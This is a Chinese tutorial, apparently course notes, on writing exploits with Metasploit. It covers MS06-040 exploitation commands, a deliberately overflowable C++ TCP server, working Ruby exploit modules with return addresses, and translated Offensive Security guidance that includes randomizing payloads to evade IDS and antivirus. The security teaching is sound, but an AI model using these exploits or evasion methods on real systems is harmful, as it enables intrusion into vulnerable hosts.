








# 第3讲用 Metasploit 开发 Exploit

软件工业中面向对象、封装等概念的提出对漏洞利用、漏洞测试等领域也有着深远的影响。就像软件开发中的 MFC 架构、.net 架构一样，安全技术领域的开发也有着自己独特的 FrameWork用于协助exploit的迅速开发。通用化漏洞测试、利用平台——MSF（MetaSploit Frame work）就是其中最为著名的一个。

对于惧怕二进制和汇编语言的普通 IT 工程师来说，MSF 就好像是一款简单易用的“傻瓜”相机，让您不必操心光圈、快门、ISO 指数、白平衡、光强分布等参数，我们需要做的仅仅是按下快门。

MSF 对模块和类优秀的封装最大限度地体现了面向对象中代码重用的优点。学完本章，您会惊奇地发现 MSF 把开发 exploit 的工作变成了做“填空题”的过程。

## 漏洞测试平台 MSF 简介

通过前面的学习，可以归纳出一些相对独立的过程（模块）：
- 触发漏洞：缓冲区有多大？第几个字节可以覆盖返回地址？用什么样的方法植入代码？
- 选取shellcode：端口绑定？消息框弹出？
- 重要参数的设定：主机IP地址、bindshell需要绑定的端口...
- 选用编码、解码算法
- hash处理

MetaSploit FrameWork 就是这样一种架构。它对漏洞利用的几个相对独立的过程进行了很好的封装，把一次入侵攻击简化为对若干个模块的选择与组装，就像好像发射
导弹一样。

### 示例：使用Metasploit 入侵Windows系统

#### 利用 MS06-040 

本节将通过一个真实的漏洞利用案例向您演示 MetaSploit 的基本使用方法。所选用漏洞的微软编号为 MS06-040，CVE 编号为 CVE-2006-3439，这个漏洞对应的安全补丁为KB921883。Windows系统的动态链接库文件netapi32.dll中第317个导出函数NetpwPathCanon- icalize()对于字符串参数的处理存在典型的栈溢出。更加不幸的是，这个函数可以通过 RPC 的方式被远程调用，因此，成功利用这个漏洞可以远程控制目标主机。

实验环境:

- 攻击主机操作系统 : Windows 2000、Windows XP、Windows 2003、Linux、UNIX、Mac OS 等 MSF 支持的操作系统均可。
- 目标主机操作系统： Windows 2000 SP0~SP4 ，Windows XP SP1 中的漏洞也可以获得远程控制权，但 SP2 上只能达到 DOS 的效果
- 目标 PC ：虚拟机 虚拟机或实体计算机均可用于攻击测试
- 补丁版本: 未打过 KB921883 补丁, 务必确保实验所用的目标主机中的漏洞未被 Patch
- MSF 版本: 3. 4.1 ,其他版本也可以达到同样的攻击效果
- 网络环境: 攻击主机与目标主机互相可达 确保防火墙等不会影响 TCP 链接的正常建立

MSF目前最流行的使用方法是在Kali linux中使用。使用步骤如下：
- 启动kali linux ，在terminal 中键入```msfconsole``` 
- 在控制台界面下，键入命令 ```search netapi32```
  - 结果可能有多条，其中之一是例如 ```exploit/windows/smb/ms06_040_netapi  2006-08-08 good No MS06-040 Microsoft Server Service NetpwPathCanonicalize Overflow```
- 使用命令```use exploit/windows/smb/ms06_040_netapi```，加载这个exploit代码
- 使用命令```show target```，显示可以攻击的目标。
- 使用命令```show options```, 显示需要配置的选项。
- 使用命令```show payloads```，显示可用的shellcode。
- 使用命令```set 参数  参数值```设置target、options、payloads等等
- 完成上述设置后使用```run``` 或 ```exploit```尝试渗透测试。

### 利用 MSF 制作 shellcode

MetaSploit 除了可以帮助IT 人员进行攻击测试之外，它所包含的众多 Payload 模块还可以导出以各种编程语言表示的 shellcode。

shellcode 的一些开发选择：
- EXITFUNC:结束方式，一般情况是SEH，即产生异常时退出，可以选process，即程序结束时退出。
- max size：最大尺寸
- restricted characters：避免出现的字节，默认是0x00，即字符串结束符，也可以是其他的。
- selected encoder：编码器选择
- format：导出格式

目前msf的版本已经是4.17 or 5.0，工具发生了变化，主要工具是使用msf中的msfvenom。可参考 https://www.offensive-security.com/metasploit-unleashed/exploit-development/


#### 使用MSF扫描跳板

MSF提供了很多小工具，例如NETCAT。本节介绍msfpescan，可用于搜索PE文件中跳转指令，并直接转换为VA工具，它使用起来更加简单。

使用msfpescan，需要先进入msfconsole。然后在msf提示符下运行```msfpescan -f -j esp somepath\kernel32.dll```，这个目标kernel32.dll需要放在一个可访问的目录下。

#### Ruby 语言简介

要在 MetaSploit 3.x 架构下开发出自己的模块和插件，必须有一定 Ruby 语言基础。下面对 Ruby 语言做一个简单介绍，以方便您学习后面的章节。本节仅仅针对开发 MSF 模块时经常会用到的语法和表达式进行简单介绍。

Ruby 是一种功能强大的面向对象的脚本语言，它可以使您方便快捷地进行面向对象编程。

下面写一个helloworld in Ruby:
```Ruby
#!/usr/bin/env ruby
print "hello world\n"

```
保存为 t.rb 并放在 MSF 3.4.0 的安装目录下的 msf3 文件夹下。启动 MSF 的“Metasploit Console”，在命令窗口中键入 ruby t.rb，得到运行结果。

##### 基本语法

- 注释符：ruby使用 # 作为注释符
- 变量：除保留字外均可做变量名，不需要提前声明，不需要确定类型。
- 
##### 字符串操作：两种字符串:
- 可转义的字符串，使用 ```#{字符串}```表示
- 纯字符串 ：用单引号括起来的字符串为纯字符串，除了单引号自身的转义符号\’之外，这种字符串内部不再支持其他转义字符。

如果纯字符串中经常出现单引号，为了避免反复使用\’进行转义，可以使用另外几种纯
字符串表示方法，并且这些表达方式在 MSF 模块中经常遇见，例如，下面几种表示方法是等价的。
```ruby
’fail\’west’
%q{fail’west}
%q/fail’west/
%Q/fail’west/
%/fail’west/ 
```

字母 q 在这里代表 quote（引号）的意思。
##### 运算符
- Ruby 对运算符做了很好的重载，大大方便了字符串操作。
  - 运算符“<<”、“+”都表示字符串连接。
例如：
```ruby
#!/usr/bin/env ruby
a="fail"
a<<"west"
a="hello "+a
print a 
```

运行结果为：hello failwest
  
- 运算符“*”表示复制字符串若干遍，在开发 exploit 时可以用类似”\x90”*100 的表达式方便地布置缓冲区。

##### 数组

Ruby 的数组元素用方括号标识，元素之间用逗号隔开。Ruby 是纯粹面向对象语言，一切元素皆为对象，数组也一样。Ruby 数组中的元素可以是不同类型的常量、变量，还可以任意嵌套，并且不用提前声明类型和大小。

```ruby
#!/usr/bin/env ruby
a=[1,'failwest',[3,'test']]
print "#{a[0]}\n"
print "#{a[1]}\n"
print "#{a[2][0]}\n"
print "#{a[2][1]}\n"
print a
```
运行结果为：
1
failwest
3
test
1failwest3test 

##### hash 表 也就是python中的字典
hash 表是 MSF 模块中大量使用的一种数据结构。hash 表的作用和数组类似，但数组使用数字作为索引来引用数据，很容易对数据的意义产生混淆。通过 hash 表中作为索引的字符串来引用数据则不存在这个问题。

hash 用大括号标识，每一对映射之间用逗号隔开。映射运算符为“=>”，其中，左边是键（key），右边是值（value）。键与值之间的数据类型可以没有任何联系，我们甚至可以把一个字符串映射为一个嵌套的数组。

例如：
```ruby
#!/usr/bin/env ruby
a = {
 'zero' => "this is the value of zero\n",
 'one' => ["failwest\n" , 1]
}
print a['zero']
print a['one'][0]
print a['one'][1]
```
运行结果为：
this is the value of zero
failwest
1 

##### 模块、类、Method 的定义

方法（函数）的定义与 C 语言大致相同，用保留字 def 和 end 标识一个函数体。
例如：
```ruby
#!/usr/bin/env ruby
def display(n)
if n==1
then
print "failwest !\n"
else
print "hello world!\n"
end
end
display(1)
display(2)
```

运行结果为：
failwest !
hello world!

- 模块的定义以关键字“module”开始，“end”结束；
- 类的定义以关键字“class”开头，“end”结束。


好了，Ruby 介绍到此为止。虽然类的继承、正则表达式的使用等重量级特性还没有介绍，但只要您有一定编程基础，阅读 MSF 模块中的代码应该不成问题。

#### “傻瓜式”Exploit 开发 

本节将使用 Ruby 语言开发一个 exploit 模块，并在 MSF 下运行以测试漏洞。漏洞程序是我们自己设计的一个存在典型栈溢出的 server，其代码如下。

```c++
#include<iostream.h>
#include<winsock2.h>
#pragma comment(lib, "ws2_32.lib")

void msg_display(char * buf)
{
    char msg[200];
    strcpy(msg,buf);// overflow here, copy 0x200 to 200
    cout<<"********************"<<endl;
    cout<<"received:"<<endl;
    cout<<msg<<endl;
}
void main()
{ 
    int sock,msgsock,lenth,receive_len;
    struct sockaddr_in sock_server,sock_client;
    char buf[0x200]; //noticed it is 0x200
    
    WSADATA wsa;
    WSAStartup(MAKEWORD(1,1),&wsa);
    if((sock=socket(AF_INET,SOCK_STREAM,0))<0)
    {
        cout<<sock<<"socket creating error!"<<endl;
        exit(1);
    }
    sock_server.sin_family=AF_INET;
    sock_server.sin_port=htons(7777);
    sock_server.sin_addr.s_addr=htonl(INADDR_ANY);
    if(bind(sock,(struct sockaddr*)&sock_server,sizeof(sock_server)))
    {
        cout<<"binging stream socket error!"<<endl;
    }
    cout<<"**************************************"<<endl;
    cout<<" exploit target server 1.0 "<<endl;
    cout<<"**************************************"<<endl;
    listen(sock,4);
    lenth=sizeof(struct sockaddr);
    do{
        msgsock=accept(sock,(struct sockaddr*)&sock_client,(int*)&lenth);
        if(msgsock==-1)
        {
            cout<<"accept error!"<<endl;
            break;
        }
        else
            do
            {
                memset(buf,0,sizeof(buf));
                if((receive_len=recv(msgsock,buf,sizeof(buf),0))<0)
                {
                    cout<<"reading stream message erro!"<<endl;
                    receive_len=0;
                }
                msg_display(buf);//trigged the overflow
            }while(receive_len);
        closesocket(msgsock);
    }while(1);
    WSACleanup(); 
}
```

这是一个非常简易的 TCP socket 程序。编译运行后，程序会在 7777 端口监听 TCP 链接，如果收到数据就在屏幕上打印出来。在 main 函数中，buf 数组的大小被声明为 0x200，在display 函数中将有可能把 0x200 的字符串复制进 200 大小的局部数组，从而触发一个典型的栈溢出。目标主机及 target_server.cpp 的编译环境如表:
- 目标系统：windows2k
- 编译器：vc6
- 编译选项：默认
- build版本：release版本。

用于测试这个漏洞的 Ruby 脚本如下：
```ruby
#!/usr/bin/env ruby 
require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
    include Exploit::Remote::Tcp

    def initialize(info = {})
        super(update_info(info,'Name'))
        super(update_info(info,
            'Name' => 'failwest_test',
            'Platform' => 'win',
            'Targets' => [
                ['Windows 2000', {'Ret' => 0x77F8948B } ],
                ['Windows XP SP2',{'Ret' => 0x7C914393 } ]
            ],
            'Payload' => {
                'Space' => 200,
                'BadChars' => "\x00",
            }
        ))
    end #end of initialize
    
    def exploit
        connect
        attack_buf = 'a'*200 + [target['Ret']].pack('V') + payload.
        encoded 
        sock.put(attack_buf)
        handler
        disconnect
    end #end of exploit def
end #end of class def
```

下面对这段代码做一点简单的解释。
- require 指明所需的类库，相当于 C 语言的 include。所有的 MSF 模块都需要这句话。
- 运算符“<”在这里表示继承，也就是说，我们所定义的类是由 Msf::Exploit::Remote 继承而来，可以方便地使用父类的资源。
- 在类中只定义了两个方法（函数），一个是 initialize，另一个是 exploit。

现在模块的架构可以看成：
```
class xxx
    def initialize
        #定义模块初始化信息，如漏洞适用的操作系统平台、为不同操作系
        #统指明不同的返回地址、指明 shellcode 中禁止出现的特殊字符、
        #漏洞相关的描述、URL 引用、作者信息等
    end
    def exploit
        #将填充物、返回地址、shellcode 等组织成最终的 attack_buffer，并发送
    end
end 
```

可见为 MSF 开发模块的过程实际上就是实现这两个方法的过程。下面分别来看看这两个方法。
- initialize 方法的实现非常简单，在某种意义上更像是在“填空”。本节例子中只“填”了最基本的信息。从代码中可以看到，initialize 实际上只调用了一个方法 update_info 来初始化 info 数据结构。初始化的过程通过一系列 hash 操作完成。
  - Name 模块的名称，MSF 通过这个名称来引用本模块。
  - Platform 模块运行平台，MSF 通过这个值来为 exploit 挑选 payload。本例中，该值为‘win’，所以 MSF 将只选用 Windows 平台的 payload，BSD 和 Linux 的 payload 将被自动禁用。
  - Targets 可以定义多种操作系统版本中的返回地址，本例中定义了 Windows 2 000 和Windows XP SP2 两种，跳转指令选用 jmp esp，均来自 ntdll.dll。在实验时您可能需要根据实验环境重新确定这个值。搜索跳转指令地址的方法参看 3.2 节和 4.4 节。
  - Payload 对 shellcode 的要求，如大小和禁止使用的字节等。由于漏洞函数使用 strcpy 函数，故字符串结束符 0x00 应该被禁用。MSF 会根据这里的设置自动选用编码算法对 shellcode 进行加工以满足测试要求。


再看 exploit 的定义，更加简单。首先选用 200 个字母“a”填充缓冲区。pack('V')的作用是把数据按照 DWORD 逆序。还记得数值数据和内存数据的区别吗？至少您还记得每次我们填写地址的时候都是按字节反写 DWORD 的吧。填充了缓冲区和返回地址后，再连上经过编码的 shellcode，就得到了最终的 attack_buf。其中，payload.encoded 会在使用时由 MSF 提示我们手工配置并生成。

除去所有模块都必须的格式性代码，实际上有效的语句不过十多行。我们需要做的只是指明跳转地址等几个关键数据，像“填空”一样完成一份“问卷”就行。体会到我为什么说 MSF 是“傻瓜相机”了吧。现在使用 MSF 这个模块进行漏洞测试。
- 将漏洞服务器按照实验要求编译并 build 成 release，为了体现“入侵”的概念，我把这个 target_server 放在一台 Windows 2000 虚拟机中运行。
- 把我们的模块放到 exploit 目录下面，例如，我这里是 C:\Program Files\Metasp loit\Framework3\msf3\modules\exploits\failwest\test.rb。
- 从开始菜单中启动 MetaSploit C onsole，查看我们自己开发的 exploit 是否添加成功，


#### 用 MSF 发布 POC

如果您完成了上一节实验中的所有步骤，相信您一定已经深刻地体会到按照 MSF 开发Exploit 的好处。
- 可重用性：可以轻松搭载各类已有的 shellcode。
- 可扩展性：可将一个模块轻易扩展到适应多个操作系统。
- 概念清晰：溢出点、返回地址等位置一目了然，方便后续的漏洞分析和修复工作。
- 开发迅速：开发过程被简化到按照一定格式“填入”相应的数据。

当需要向外界公布漏洞的技术细节时，一般会用一段 POC（Proof of Concept）代码来重现漏洞被触发的过程。由于 MSF 为开发 exploit 提供了方便，越来越多的 POC 开始采用 MSF 的 exploit 模块方式进行公布。

题外话：很多 C 语言的 POC 代码，仅仅向目标发送一堆十六进制的数据。如果不自己调试，很难知道程序干了点什么、溢出点在哪里、缓冲区有多大、shellcode 的作用是什么、缓冲区是怎样组织的、换一个操作系统进行测试应该修改哪里等重要信息。

上节已经给出了一个包含所有基本信息的 exploit 漏洞测试模块。本节将在上节基础上给出一个更加“饱满”的模块，用于 POC 发布。

仍然以上节中的漏洞程序为测试目标。MSF 模块开发的思路基本一样，不同的只是在配置info 数据结构时“填写”更多的信息，让 POC 看起来更加完善，例如，作者信息、版本信息、漏洞描述信息、其他 URL 引用、CVE 引用等。

完善后的模块如下所示。
```ruby

#!/usr/bin/env ruby
require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
    include Exploit::Remote::Tcp
    def initialize(info = {})
        super(update_info(info,
            'Name' => 'failwest_POC',
            'Version' => '1.0',
            'Platform' => 'win',
            'Privileged'=> true,
            'License' => MSF_LICENSE,
            'Author' => 'FAILWEST',
            'Targets' => [
                ['Windows 2000', {'Ret' => [200 , 0x77F8948B] }],
                ['Windows XP SP2',{'Ret' => [200 , 0x7C914393] }],
            ],
            'DefaultTarget' => 0,
            'Payload' => {
                'Space' => 200,
                'BadChars' => "\x00",
                'StackAdjustment' => -3500,
            },
            'Description' => %q{
                this module is exploit practice of book
                "Vulnerability Exploit and Analysis Technique"
                used only for educational purpose
            },
            'Arch' => 'x86',
            'References' => [
                [ 'URL', 'http://www.failwest.com' ],
                [ 'CVE', '44444' ],
            ],
            'DefaultOptions' => { 'EXITFUNC' => 'process' }
        ))
    end #end of initialize
    def exploit
        connect
        print_status("Sending #{payload.encoded.length} byte payload...")
        buf = 'a'*target['Ret'][0]
        buf << [target['Ret'][1]].pack('V')
        buf <<payload.encoded;
        sock.put(buf)
        handler
        disconnect
    end #end of exploit def
end
```

将其保存为 poc.rb，放在正确的目录下，启动 MSF，在 Web 界面下单击“Exploits”按钮，搜索“failwest”，如其中的 failwest_POC 就是本节扩充过附属信息的模块，第二个没有描述信息的是上节完成的模块。可以看到我们在模块中填写的信息都已经显示在界面上。这些信息通过命令“info”也可以在命令行环境下显示出来。这样，一个包含了各种附属信息的标准 POC 就完成了。即使对完全不了解我们程序中漏洞的人，通过这个模块也能迅速掌握所有技术细节。


## OFFENSIVE 官方教程 —— 使用 Metasploit Framework 开发 Exploit

内容来源：https://www.offensive-security.com/metasploit-unleashed/exploit-development/


Exploit 开发时MSF最著名的特性。Metasploit中当前存在大量漏洞利用程序，因此很有可能已经存在一个模块，您可以在漏洞利用程序开发期间简单地为自己的目的对其进行编辑。为了使漏洞利用开发更加容易，Metasploit包含一个示例漏洞，您可以对其进行修改。您可以在“ documentation / samples / modules / exploits / ” 下找到它。内容如下：
```ruby
##
# $Id$
##

##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
# http://metasploit.com/framework/
##

require 'msf/core'

module Msf

###
#
# This exploit sample shows how an exploit module could be written to exploit
# a bug in an arbitrary TCP server.
#
###
class Exploits::Sample < Msf::Exploit::Remote

	#
	# This exploit affects TCP servers, so we use the TCP client mixin.
	#
	include Exploit::Remote::Tcp

	def initialize(info = {})
		super(update_info(info,
			'Name'           => 'Sample exploit',
			'Description'    => %q{
					This exploit module illustrates how a vulnerability could be exploited
				in an TCP server that has a parsing bug.
			},
			'Author'         => 'skape',
			'Version'        => '$Revision$',
			'References'     =>
				[
				],
			'Payload'        =>
				{
					'Space'    => 1000,
					'BadChars' => "\x00",
				},
			'Targets'        =>
				[
					# Target 0: Windows All
					[
						'Windows Universal',
						{
							'Platform' => 'win',
							'Ret'      => 0x41424344
						}
					],
				],
			'DefaultTarget' => 0))
	end

	#
	# The sample exploit just indicates that the remote host is always
	# vulnerable.
	#
	def check
		return Exploit::CheckCode::Vulnerable
	end

	#
	# The exploit method connects to the remote service and sends 1024 A's
	# followed by the fake return address and then the payload.
	#
	def exploit
		connect

		print_status("Sending #{payload.encoded.length} byte payload...")

		# Build the buffer for transmission
		buf  = "A" * 1024
		buf += [ target.ret ].pack('V')
		buf += payload.encoded

		# Send it off
		sock.put(buf)
		sock.get

		handler
	end

end

end
```
## Exploit开发目标（使用MSF的优势）

使用MSF开发exploits，开发目标可能有：

首先开发的exploits必须短小精干（minimalist）。
- 将大部分工作交给MSF
- 利用、依赖 Rex 协议库
- 尽可能的利用可获得的 mixins和plugins。

与精简指令同样重要，exploit必须可靠：
- 任何声明了的 BadChars 必须100%精确
- 确保 Payload的Space 是最大可靠值
- 在exploit开发中的众多小细节

Exploits应该尽可能地利用随机化。Randomization 有助于IDS, IPS 和反病毒的免杀，而且能够作为很好的可靠性测试。

- 在生成填充时（padding），使用 Rex::Text.rand_text_*(rand_text_alpha,rand_text_alphanumeric,etc)
- 使用编码器，随机化所有的payloads
- 如果可能，随机化编码器本身
- 随机化空指令

与功能性同样重要，exploits应该时可读的。

- 所有的 Metasploit modules 使用了一致的结构，使用 hard-tab缩进。
- 搞笑的代码是难以维护的
- 通过框架，Mixins 提供了一致的选项名称

最后，exploits应该是有用的
- POC应该作为列为辅助的 DoS模块，而不是 exploits 模块中。
- 最终版 the final exploit  一定要高可靠性。
- Target 列表应当包含在内。

## Exploit module 格式

### 格式化我们的 Exploit module

在MSF中，Exploit module 的格式近似于 Auxiliary module 的格式，但有更多的字段。
- 总有一个 ```Payload Information Block```, 每个 exploit module都有这个字段，没有的化那就是 auxiliary 模块了。
- 可用的Targets列表是明确的。
- 不再定义run(),而是使用exploit() 和 check()

### exploit module 骨架

下面的代码给出了 MSF exploit代码的基本框架：
```ruby

class Metasploit3 < Msf::Exploit::Remote

      include Msf::Exploit::Remote::TCP

      def initialize
           super(
               'Name'          => 'Simplified Exploit Module',
               'Description'   => 'This module sends a payload',
               'Author'        => 'My Name Here',
               'Payload'       => {'Space' => 1024, 'BadChars' => “\x00”},
               'Targets'       => [ ['Automatic', {} ] ],
               'Platform'      => 'win',
           )
           register_options( [
               Opt::RPORT(12345)
           ], self.class)
      end

      # Connect to port, send the payload, handle it, disconnect
      def exploit
           connect()
           sock.put(payload.encoded)
           handler()
           disconnect()
      end
end
```

#### 定义一个Exploit Check

尽管很少被实现，check()方法应该在你的exploit 模块中被定义。
- 用check()方法验证除payloads外的所有选项
- 做检查的目的在于判断是否目标存在漏洞
- 返回一个定义的检查值

check()方法的返回值是：
- CheckCode::Safe, 不可渗透的
- CheckCode::Detected，检查到了服务
- CheckCode::Appears，目标是含有漏洞的软件版本
- CheckCode::Vulnerable，目标漏洞被确认
- CheckCode::Unsupported，检查不适用此模块

下面是一个check()函数适用的例子：
```ruby
def check
     # connect to get the FTP banner
     connect

     # grab banner
     banner = banner = sock.get_once

     # disconnect since have cached it as self.banner
     disconnect
    
     case banner
          when /Serv-U FTP Server v4\.1/
               print_status('Found version 4.1.0.3, exploitable')
               return Exploit::CheckCode::Vulnerable

          when /Serv-U FTP Server/
               print_status('Found an unknown version, try it!');
               return Exploit::CheckCode::Detected

          else
               print_status('We could not recognize the server banner')
               return Exploit::CheckCode::Safe
     end

     return Exploit::CheckCode::Safe
end
```

### 使用 Exploit MIXINS
MIXINS就像是一些可用的API接口，能够将已定义、健壮的功能加入自己的exploit。
常用的有很多，下面列举一些。

#### Exploit::Remote::Tcp
代码：```lib/msf/core/exploit/tcp.rb```

它提供了TCP 选项和方法：
- Defines RHOST, RPORT, ConnectTimeout
- Provides connect(), disconnect()
- Creates self.sock as the global socket
- Offers SSL, Proxies, CPORT, CHOST
- Evasion via small segment sends
- Exposes user options as methods – rhost() rport() ssl()

#### Exploit::Remote::DCERPC

代码位置: lib/msf/core/exploit/dcerpc.rb

这个模块继承自TCP mixin ，而且有下列一些方法和选项：
- dcerpc_handle()
- dcerpc_bind()
- dcerpc_call()
- 使用了multi-context BIND requests and fragmented DCERPC calls，支持 IPS 免杀

#### Exploit::Remote::SMB
Code: lib/msf/core/exploit/smb.rb

继承自 TCP mixin，并提供了下列方法和选项：
- smb_login()
- smb_create()
- smb_peer_os()
- 提供 SMBUser, SMBPass, and SMBDomain 的选项
- 提供 IPS 免杀方法，例如: SMB::pipe_evasion, SMB::pad_data_level, SMB::file_data_level

#### Exploit::Remote::BruteTargets

有两个有趣的源文件.

第一个位于: lib/msf/core/exploit/brutetargets.rb

重载了 exploit() 方法。

- 可以为每个target 调用 exploit_target(target) 方法
- 手动可调每个target循环

第二个位于: lib/msf/core/exploit/brute.rb

它也重载了 exploit method.
- 它会在每个步骤都调用 brute_exploit() 方法
- 易于爆破和指定地址范围。

#### Metasploit Mixins

上面列出的mixins只是冰山一角，因为在创建漏洞利用程序时，还有许多其他信息可供您使用。一些更有趣的是：
- Capture – sniff network packets
- Lorcon – send raw WiFi frames
- MSSQL – talk to Microsoft SQL servers
- KernelMode – exploit kernel bugs
- SEH – structured exception handling
- NDMP – the network backup protocol
- EggHunter – memory search
- FTP – talk to FTP servers
- FTPServer – create FTP servers

### 渗透的目标（targets）
在exploit模块中定义的targets，包括：
- name
- number（编号）
- options

一个Exploit 模块的Target代码样例如下：
```ruby
'Targets' =>
    [
        # Windows 2000 - tTARGE = 0
        [
            'Windows 2000 English',
            {
                'Rets' => [0x773242e0],
            },
        ],
        # Windows 2000 - tTARGE = 1
        [
            'Windows XP English',
            {
                'Windows XP English',
                {
                    'Rets' => [0x7449bf1a],
                },
            },
        ],

    ],
'DefaultTarget' => 0))
```

#### Target 选项块
一个target代码中的选项块近似于free-form，尽管有一些特别的选项名称。
- “Ret” 是target.ret()的简称
- “Payload” 重载了exploit信息块

选项是存放target数据的地方，例如：
- 某个windows 2000 target的返回地址
- 需要增加到windows xp目标中的 500 字节填充
- windows vista NX 绕过地址

#### 访问 target 信息

target对象是用户选中的target，同时也是在exploit中作为一个哈市被访问的一个对象。

有如下用法：
- target['padcount']
- target['Rets'][0]
- target[‘Payload’][‘BadChars’]
- target[‘opnum’]

#### 增加与修复 exploit targets

有时你需要新的targets，因为某个特殊语言pack改变了定位，或因为某个与之前不同的软件版本，又或定位偏移了。

增加一个新的target仅需要3步：
- 确定你要求的返回地址的类型。这可能是一个简单的“jmp esp”，即跳转到某个寄存器，或者是某个“pop/pop/ret”。exploit代码中的注释会帮助你判断这一点。
- 获得该target二进制的拷贝
- 使用msfpescan定位适当的返回地址。

#### 使用 msfpescan 获得返回地址

如果exploit代码不能显式告诉你何种返回地址类型是所需要的，但能够告诉你当前exploit中的这个dll名字，你可以使用msfpescan去查找这个返回地址类型。

下面给出一个例子：
```
'Windows 2000 SP0-SP4',
{
          'Ret'          => 0x767a38f6,  # umpnpmgr.dll
}
```

为了找到例子中exploit使用何种返回地址类型，我们需要从windows 2000 拷贝 umpnpmgr.dll文件，然后运行 msfpescan，找出地址来确定返回类型，假设我们要找的是指令```pop/pop/ret```的地址，那么运行下面命令：
```root@kali:~# msfpescan -D -a 0x767a38f6 umpnpmgr.dll```

结果如下：
```
[umpnpmgr.dll]
0x767a38f6 5f5ec3558bec6aff68003c7a7668e427
00000000 5F                pop edi
00000001 5E                pop esi
00000002 C3                ret
00000003 55                push ebp
00000004 8BEC              mov ebp,esp
00000006 6AFF              push byte -0x1
00000008 68003C7A76        push 0x767a3c00
0000000D 68                db 0x68
0000000E E427              in al,0x27
```

### Exploit payloads
MSF帮助我们将exploit payloads发送到目标系统中，当生成一个exploit payload时，我们有几件事要考虑，包括: os架构、杀毒软件、IDS ， IPS等等。在我们的exploits免杀检查中，我们想通过对payloads进行编码，来删除任何 badcharacters ，并通过使用NOPS增加一些随机化到最终结果中。

MSF有一些payload编码器和NOP指令生成器，帮助我们生成可用的payload。

在选择 payload编码器时，要考虑：
- 一定不能碰的某些寄存器
- 代码最大长度限制
- 必须避免的坏字符
- 编码器要被评级

在选择nop生成器时，要考虑：
- 先尝试最随机化的一个
- NOPs也要有评级

payload 编码器 示例：
- The defined Payload Space is 900 bytes
- The Payload is 300 bytes long
- The Encoder stub adds another 40 bytes to the payload
- The NOPs will then fill in the remaining 560 bytes bringing the final payload.encoded size to 900 bytes
- The NOP padding can be avoided by adding ‘DisableNops’ => true to the exploit

Payload Block Options

下面的例子显示了payloads可能受exploits的影响而改变：

